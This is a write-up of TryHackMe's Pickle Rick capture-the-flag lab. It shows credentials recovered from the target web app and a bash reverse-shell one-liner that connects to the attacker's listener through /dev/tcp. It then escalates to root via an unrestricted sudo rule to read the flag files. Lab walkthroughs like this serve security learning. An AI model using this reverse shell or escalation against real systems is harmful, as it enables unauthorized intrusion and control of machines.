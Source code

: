 ```yaml
---
title: "Pickle Rick CTF - TryHackMe"
author: Ludovic COULON
date: 2020-05-19
hero: ./images/hero.jpeg
excerpt: "Writeup for the Pickle Rick CTF on TryHackMe"
---
```


[TryHackMe | Pickle Rick CTF](https://tryhackme.com/room/picklerick)

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

### Setup

<div className="Image__Medium">
  <img src="https://imgur.com/rM9j9mn.png" alt="blog_image" />
</div>

```bash
Note to self, remember username!

Username: R1ckRul3s
```

<div className="Image__Medium">
  <img src="https://imgur.com/lUU7tXN.png" alt="blog_image" />
</div>

```bash
Maybe a password ?
Wubbalubbadubdub
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtHHGaE.png" alt="blog_image" />
</div>

```bash
Account:
R1ckRul3s:Wubbalubbadubdub
```

### #1 Deploy the virtual machine on this task and explore the web application. What is the first ingredient Rick needs?

<div className="Image__Medium">
  <img src="https://imgur.com/1vWZUA9.png" alt="blog_image" />
</div>

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/J5cZERN.png" alt="blog_image" />
</div>

Let's try something else then ...

[bash | GTFOBins](https://gtfobins.github.io/gtfobins/bash/)

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.228/4444 <&1'
```

```bash
www-data@ip-10-10-91-207:/var/www/html$ ls
ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
www-data@ip-10-10-91-207:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

### #2 Whats the second ingredient Rick needs?

When you are in root you can't cd in the directory so I used the less command like so.

```bash
less /home/rick/"second ingredients"
1 jerry tear
```

### #3 Whats the final ingredient Rick needs?

```bash
www-data@ip-10-10-91-207:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-91-207.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-91-207.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-91-207:/var/www/html$ sudo su
cd /root/
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/tpmhPhO.png" alt="TryhackMeProfile" />
  </a>
</center>
